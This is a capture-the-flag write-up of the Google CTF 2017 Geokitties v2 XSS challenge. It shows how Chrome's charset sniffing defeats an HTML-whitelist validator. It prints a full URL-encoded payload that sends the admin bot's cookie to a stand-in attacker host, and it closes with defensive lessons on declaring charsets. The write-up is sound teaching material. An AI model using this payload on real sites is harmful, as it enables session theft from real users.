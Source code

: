 # Write-up: Google CTF 2017 | Geokitties v2

[**Geokitties v2**](https://geokittiesv2.web.ctfcompetition.com/) is an XSS
challenge that comes in the look of the late-90's personal homepage of an avid
cat enthusiast. The site's only operative feature is a comment form that
permits a small subset of HTML. Any supplied comment is immediately reviewed by
the automated administrator bot that will click on any link in the comment
text.  Here, the challenge is to submit a comment that passes all checks of the
deployed HTML validator and at the same time triggers XSS on the
administrator's end to exfiltrate a secret flag cookie.

Interestingly, there is a shortcut to solve this challenge. Instead of exploiting
weaknesses in the HTML parser itself, we can take advantage of Google Chrome's
lax charset sniffing to simply bypass parts the validation process.

## The HTML validator

The application is written in Node.js and uses the
[`htmlparser2`](https://github.com/fb55/htmlparser2) module to parse the HTML
in every provided comment text. The validator then roughly takes these steps to
ensure that the supplied HTML is safe:

- Only allow HTML tags from a whitelist (`p`, `a`, `b`, `img`, `br`, `i`) to
  prevent dangerous tags with side effects (e.g. `<script>` or `<iframe>`).
- Exclude all `on.*` event handler attributes (e.g. to prevent an `onclick`
  event attached to an otherwise innocuous `<a>` link).
- Allow an `href` attribute only if the value starts with `http[s]:` to prevent
  XSS via pseudo schemes such as `javascript:` or `data:`.

One possible attack approach here is to examine the parser's handling of
duplicate attributes and attributes that are written in mixed case or
interspersed with unexpected Unicode glyphs. Other ideas include supplying an
excessive amount of attributes or using ambiguous formatting -  e.g. by mixing
different types of quotes, or by finding a character that the application's
parser interprets as whitespace while the browser sees it as part of an
identifier.

## A different approach: Charset sniffing

But luckily we don't need to examine the parser's implementation to solve the
challenge. Instead, we take advantage of the fact that the site is served as
`text/html`, but lacks a charset declaration. In such a case, browsers employ
different heuristics to *guess* the intended charset. But while convenient,
charset sniffing can become unpredictable quickly.  E.g., Chrome interprets
`data:text/html,%AA%BB`as being encoded in the Chinese `Big5` charset, while
`data:text/html,%00%BB` is sniffed as UTF-16LE although two bytes hardly allow
a reliable determination.

For this challenge, we mislead Chrome to detect UTF-16BE (Big Endian) by
using the byte sequence `\x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x`. In
UTF-16, Unicode code points are encoded in chunks of at least 16 bits. E.g.,
the character `A` (which is encoded in UTF-8 as `\x41`) needs to be encoded as
`\x00\x41` in UTF-16BE (or `\x41\x00` in UTF-16LE).  Consequently, the document
`data:text/html;charset=utf-16be,<br>` doesn't yield a single `<br>` tag but
results in the two Unicode glyphs `\u3C62` and `\u723E`. We can exploit this
behavior to make the browser "swallow" sequences that appear as parts of the
HTML syntax in UTF-8 but don't have an effect in a different charset. This way
we can ultimately inject arbitrary tags outside the parser's whitelist.

The format of our comment looks like this:

    \x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x<a href="http:$payload">foo</a>

Any angle brackets that appear inside the `href` attribute are parsed by the
validator as part of the value while the browser sees the document in UTF-16BE
and doesn't recognize the `<a>` tag at all. At `$payload` we can then simply
inject HTML code in UTF-16BE. That is, we just need to pad a standard
ASCII-based payload with null bytes and make sure it doesn't interfere with the
double quotes of the original tag. To exfiltrate the cookie we then just issue
a redirect to an attacker-controlled domain with the cookie attached.

So, the final URL-encoded sequence could look like this:

    %11x%12x%13x%14x%15x%16x%17x%18x%19x%3Ca%20href%3D%22http%3A%00<%00a%00 %00h%00r%00e%00f%00=%00j%00a%00v%00a%00s%00c%00r%00i%00p%00t%00:%00l%00o%00c%00a%00t%00i%00o%00n%00=%00'%00h%00t%00t%00p%00s%00:%00/%00/%00a%00t%00t%00a%00c%00k%00e%00r%00.%00s%00i%00t%00e%00/%00'%00%%002%00B%00d%00o%00c%00u%00m%00e%00n%00t%00.%00c%00o%00o%00k%00i%00e%00>%00f%00o%00o%00<%00/%00a%00>%22%3e

With this payload, the following flag will be sent to `https://attacker.example/`:

    CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}

It's worth noting that not all browsers perform the same lax charset sniffing
as Google Chrome does - e.g., the trick wouldn't work in Firefox. But
fortunately, in this challenge the admin bot is implemented as a headless
instance of Google Chrome.

## Another idea: Byte order marks

Curiously, the application almost fell for a different trap that would even
have defeated an explicit charset declaration: An attacker who controls the
first bytes in a document can inject a BOM (byte order mark) to override the
specified charset - even if it originates from a header declaration.

> Changes introduced with HTML5 mean that the byte-order mark overrides any
encoding declaration in the HTTP header when detecting the encoding of an HTML
page.

[(Source)](https://www.w3.org/International/questions/qa-byte-order-mark)

The BOM for UTF-16BE is `\xFE\xFF`, so this document is encoded in UTF-16BE
despite being declared as UTF-8:

    data:text/html;charset=utf-8,%FE%FFfoo

But unfortunately, this method doesn't work in the challenge because BOMs aren't
preserved by the application, but converted (e.g. `\xFF` to `\xEF\xBF\xBD`).

## Lessons learned

Web applications should always declare a charset explicitly and not rely on
automated detection by browsers. The different charset sniffing techniques make
it hard to predict browser behavior. Also, an attacker should never be able to
control the first few bytes in a document.
